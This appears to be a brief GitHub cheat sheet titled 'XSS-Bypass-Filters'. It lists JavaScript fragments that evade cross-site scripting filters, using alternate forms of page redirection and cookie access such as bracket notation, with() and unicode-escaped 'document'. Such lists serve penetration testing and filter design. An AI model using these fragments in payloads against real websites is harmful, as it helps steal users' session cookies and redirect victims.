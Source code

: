 # XSS-Bypass-Filters

### Redirection
```
document.location=
document['location']=
window.location=
this["window"]["location"]=
document.location.href=
location.href=
location= 
```

### Link


### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
```


